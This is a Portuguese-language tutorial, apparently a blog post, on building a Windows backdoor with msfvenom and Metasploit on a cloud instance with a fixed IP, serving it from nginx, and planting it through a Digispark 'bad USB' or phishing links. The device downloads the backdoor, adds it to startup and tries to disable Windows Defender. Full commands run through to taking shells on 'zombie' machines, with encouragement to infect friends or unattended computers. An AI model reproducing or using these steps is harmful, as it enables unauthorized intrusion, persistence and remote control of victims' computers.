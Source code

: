

**Criar uma instancia e definir um IP estático**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instância. instância essa que é bem básica, uma micro com SO Debian 9.

Com o a instância criada, eu defino um IP estático para ela.
O IP estático é necessário para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suíço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis".

   Conecte-se a sua instância por ssh para instalarmos o **METASPLOIT**.
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
Conceda permisão de execução para o instalador.

 ```shell
 chmod +x msfinstall
```
Agora execute o mesmo.

 ```shell
 ./msfinstall
```
E após concluir rode.


 ```shell
 msfconsole --version
```
Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta.

**Criar backdoor**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar, que vai ser uma **REVERSA TCP** para qual tipo de SO alvo, que será máquinas Windows, o nosso **LHOST**(IP de comunicação) que vai ser o nosso IP estático, nossa **LPORT**(porta de comunicação) a porta TCP, o tipo da extensão do backdoor **-f exe**, que são executáveis do windows, o algoritmo de criptografia e compreensão **-e x86/shikata_ga_nai**, **-i 5** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saída.  Se você estive em uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretório verá que o arquivo payload.exe foi criado


**Configurar servidor web para download**

O **NGINX** vai ser necessário para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da máquina alvo. Ou enviarmos o link através de engenharia social para obter acesso a máquina alvo. 
 
 Vamos instalar o nginx.

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor.

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponível para download em.

http://34.97.212.80/payload.exe


**DigiQuack: Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)



Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de várias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas, Ou também utilizando técnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção físico**, onde vamos precisar ter acesso físico a uma máquina e em posse de um **Digispark** iremos infectar o alvo.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderíamos utilizar o **Rubber duck** *(dispositivo esse usado na serie Mr. Robot)* original, mas no Brasil é difícil encontramos e os poucos chegam a ser vendidos por um precinho um pouco salgado.*

O **Digispark** chega ser um genérico ao Rubber duck tem um desempenho inferior mas é uma alternativa acessível e viável para o nosso ataque e pode ser programada com a **IDE do Arduíno**. Com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permissão do usuário da máquina, e iremos executar comandos de teclado para fazer o download do backdoor e executar ele na máquina, adicionando ele junto a inicialização do Windows, para que quando a máquina for reiniciada obtermos uma nova conexão.

Agora bora lá, para isso você vai precisar de um [Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16"). Com ele em mãos agora você vai precisar carregar nele os módulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui.

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injetar o backdoor**

Feito tudo isso e com o **Arduíno IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma máquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o **Arduíno IDE** e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar, para debugar nosso código e depois clique em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vai injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.

Agora basta pluga-lo em qualquer máquina windows desviar a atenção do usuário da máquina aguardar alguns segundos e remove-lo, tudo muito rápido.

Você também pode enviar o link para alguém e aguardar que ele se junte a sua rede de zumbis hahahaha


**Iniciar a escuta das conexões**

Agora voltamos para a nossa instância para iniciarmos a escuta na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
msf >use exploit/multi/handler
msf >set PAYLOAD windows/meterpreter/reverse_tcp
msf >set LHOST 34.97.212.80
msf >set LPORT 5000
msf >set ExitOnSession false
```
Feito isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma máquina infectada**


Para ficar na escuta em tempo real de quem se conectou ou desconectou rode.

```shell
msf > exploit -j -z
```
 Para listar nossas conexões de entrada até o momento.

```shell
msf> sessions -l 
```
Você terá uma saída algo como.

![](https://s5.gifyu.com/images/sessionsL.png)

E para acessar um "zumbir".
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtêm acesso shell.

![](https://s5.gifyu.com/images/sessionsI.png)

E é isso, agora você é portador desse conhecimento e como escreveu Stan Lee, Tio Ben, na obra o Homem Aranha.

##### **"Com grandes poderes, vêm grandes responsabilidades."**

 
#### **CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE.**

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDÁTICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
